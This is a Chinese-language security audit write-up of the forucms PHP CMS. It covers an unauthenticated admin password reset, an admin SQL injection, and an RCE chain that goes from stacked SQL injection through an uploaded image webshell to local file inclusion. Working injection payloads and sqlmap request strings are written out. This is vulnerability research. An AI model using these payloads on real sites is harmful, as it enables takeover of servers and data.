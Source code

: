 # forucms代码审计

> 跟@Mer4k聊天的时候突然找到的这么一个cms，随便审计一下，看看能不能RCE

## 任意用户密码重置

简直傻逼，发现的代码如下：

我首先在找RCE，没找到，但关注到这样的代码：

```php
  if ($res = $db->getRow("SELECT id,u_name,u_psw FROM user WHERE u_name='$a_name' AND u_isadmin=1")) {

    if (psw_verify($a_password, $res['u_psw'])) {

      limitUserLogin($res['id']); // 用户多终端登陆限制

      setUserToken($res['id'], $res['u_name']); // 设置用户标示
      admin_log('管理员登陆');
      href('index.php?act=welcome');

    } else {
      alert_href('用户名或密码错误', 'cms_login.php');
    }

  } else {
    alert_href('用户名或密码错误', 'cms_login.php');
  }
}
```

其中这个接口act引起我的关注，我开始找到index.php，观看具体逻辑：

admin/index.php

```php
switch ($act) {
  case 'clearUploadfile':
    clearUploadfile();
  break;

  case 'welcome':
    href('cms_welcome.php');
  break;

  case 'logout':
    userLogout('cms_login.php');
  break;

  case 'baiduSend':
    // 生成数组数据
    $y = date("Y");
    $m = date("m");
    $d = date("d");
    $days = mktime(0, 0, 0, $m, $d, $y);
    $daye = mktime(23, 59, 59, $m, $d, $y);
    getDetailBaiduSend($days, $daye);
  break;

  // reset admin password
  case 'reset_admin_psw':
    $psw = psw_hash('admin');
    $sql = "UPDATE user SET u_psw = '$psw' WHERE id = 1";
    $db->query($sql);
    echo $psw;
  break;
```

发现reset根本就没有鉴权，随便密码重置



## install.php RCE

![image-20240109164701965](forucms.assets/image-20240109164701965.png)

可惜了，被交CVE了，没办法了。

## 后台SQL注入

Insert类型的注入，不过是后台的，没啥用，就当学习了

无过滤，直接拼接的，注入：

![image-20240109172835519](forucms.assets/image-20240109172835519-1704796239189-3.png)

最终调用的是这个`ops`执行的SQL

![image-20240109172913926](forucms.assets/image-20240109172913926.png)

```
333',(select user())); #
```

![image-20240109172737619](forucms.assets/image-20240109172737619.png)

## RCE

### 失败的尝试

这个站后台写的有问题，不然下面的方式直接可以RCE了：

![image-20240109162803223](forucms.assets/image-20240109162803223.png)

该功能点可以修改这里的值（channel.php）

![image-20240109162944708](forucms.assets/image-20240109162944708.png)

但是他代码这里有问题：

![1851bed409b684a459f2af314f0ea69b](forucms.assets/1851bed409b684a459f2af314f0ea69b.png)

造成原因是：

![8cc2179feeecb905e8465c293a404a6c](forucms.assets/8cc2179feeecb905e8465c293a404a6c.png)

他给转义了，所以莫名其妙的这个功能点就用不了，如果这里的表名获取正常，是可以的

![image-20240109163118971](forucms.assets/image-20240109163118971.png)

### 成功的尝试

> 我将从头开始，仔细说明这个漏洞的发现过程。

首先，我发现在`channel.php`中存在这样的代码，很可能存在本地文件包含

![image-20240116202350796](forucms.assets/image-20240116202350796.png)

于是选择追踪这两个变量的来源：

`$t_path`

```php
$t_path = TPL_DIR . '/' . (!empty($_COOKIE['cms']['template_id']) ? $_COOKIE['cms']['template_id'] : $cms['s_template']) . '/';
$GLOBALS['t_path'] = &$t_path;
```

`$channel['c_cmodel']`

```php
  public function getChannel($id) {
    return $this->db->getRow("SELECT * FROM channel WHERE id = $id");
  }
```

在后台，我们可以控制这个`c_cmodel`的值

```php
  $sql = "INSERT INTO channel ".arr_insert($data);
  $dataops->ops($sql, '频道新增', 1);
```

因此，我们可以完全控制整个channel.php的值，造成了LFI

然而，我发现，由于作者代码的问题，在后台，我无法修改`c_cmodel`的值。

![image-20240116203046468](forucms.assets/image-20240116203046468.png)

所有的键和值都要经过`arr_insert()`这个函数

![image-20240116203123857](forucms.assets/image-20240116203123857.png)

这个函数会对键做`str_safe`操作：

![image-20240116203203125](forucms.assets/image-20240116203203125.png)

而我最终发现，`str_safe`会最终调用`str_isafe()`方法，这个方法会把`script`变成`&#115;cript`.作者的本意可能是好的，然而，我们的键存在这样的字段：

```
$data['c_description'] = $_POST['c_description'];
```

因此这个键会被转义，最终无法插入表。

于是，我选择寻找一个SQL注入漏洞，来帮助我直接对这个表进行修改。

所以，我全局搜索`select`，发现很多点都被转成了整数型

![image-20240110170829048](forucms.assets/image-20240110170829048.png)

但是这一处并没有：`cms_admin.php`

![image-20240110170852366](forucms.assets/image-20240110170852366.png)

这里需要明确请求包的参数：`act=add&a_name=123`

于是使用我的SQLMAP开始尝试进行SQL注入，并得到了满意的结果：

![image-20240110171022936](forucms.assets/image-20240110171022936.png)

接下来我需要获取两个东西：`数据库名`和`表名`

这个站的报错有些问题，SQLMAP始终无法获取`--current-db`的结果。但是我们有`CVE-2024-0426`，一个后台的Insert类型的SQL注入，有用起来了：

```
333',(select database())); #
```



![image-20240110172426238](forucms.assets/image-20240110172426238.png)

表名前缀：

-v 6来查看SQLMAP注入所产生的数据，报错显示出来了表名前缀：

![image-20240110172553886](forucms.assets/image-20240110172553886.png)

最后更新：

> SQLMAP的payload如下：
>
> ```
> act=add&a_name=admin%27%3BUPDATE%20xhcms.cms_channel%20SET%20c_cmodel%20%3D%200x2e2e2f2e2e2f75706c6f616466696c652f696d6167652f32303234303131302f32303234303131303137323830345f31343732392e706e67%20WHERE%20id%20%3D%205%23
> ```

上传图片Webshell，得到路径。

![image-20240110172810932](forucms.assets/image-20240110172810932.png)

最后利用SQLMAP的`--sql-shell`来执行任意SQL语句：

```sql
UPDATE xhcms.cms_channel SET c_cmodel = '../../uploadfile/image/20240110/20240110172804_14729.png' WHERE id = 5;
```

![image-20240116204050531](forucms.assets/image-20240116204050531.png)

